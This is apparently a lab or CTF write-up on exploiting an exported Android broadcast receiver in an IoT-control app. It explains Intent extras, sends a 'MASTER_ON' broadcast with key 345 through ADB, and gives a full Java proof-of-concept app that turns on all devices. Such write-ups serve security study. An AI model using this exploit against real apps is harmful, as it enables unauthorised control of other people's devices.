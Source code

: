- **Intent**: A message used to communicate components (Activity, Service, Receiver).
- **Extras**: They are key-value data attached to the Intent.
- **Types of Extras**: They can be Strings, Integers, Booleans, Parcels, Arrays, and even serializable objects.

**Key points about the Extras**
- **Unique Keys**: Each extra has a unique key (as “**key**”).
- **Correct Types**: It is **vital to use the correct type** when sending and receiving (`--ei` for Integer, `--es` for String).
- **Access**: They are accessed through **methods** like `getStringExtra()`, `getIntExtra()`, etc.
- **ADB usage**: `--ei`, `--es`, `--ez` are examples of how to specify the type of extra when sending Intents with ADB.

Setup **logcat**
```bash
adb logcat | grep "Turning all devices on"
```

Then, *log in to the app* and send the **intent** via **ADB**
```bash
adb shell am broadcast \
-a MASTER_ON \
--ei key 345
```

Notice the logs and screen of the device that *all devices are turn on*
```bash
01-04 00:28:48.857 21907 21907 D TURN ON : Turning all devices on
```

Let's develop a **simple app** as exploit that send the intent to this broadcast. **Taking advantage of the fact that this one is exported**.

This is a **global broadcast receiver**, so we **don't need specific the activity, package name, etc**.
We just need create an app that have this in the **MainActivity.java**
```java
package com.lautaro.iotreconnect;

import android.content.Intent;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // Create intent with MASTER_ON action
        Intent intent = new Intent("MASTER_ON");
        // Add extra
        intent.putExtra("key", 345);
        // Send Broadcast
        sendBroadcast(intent);
    }
}
```
Now you know how **turn on all devices**.

I hope you found it useful (: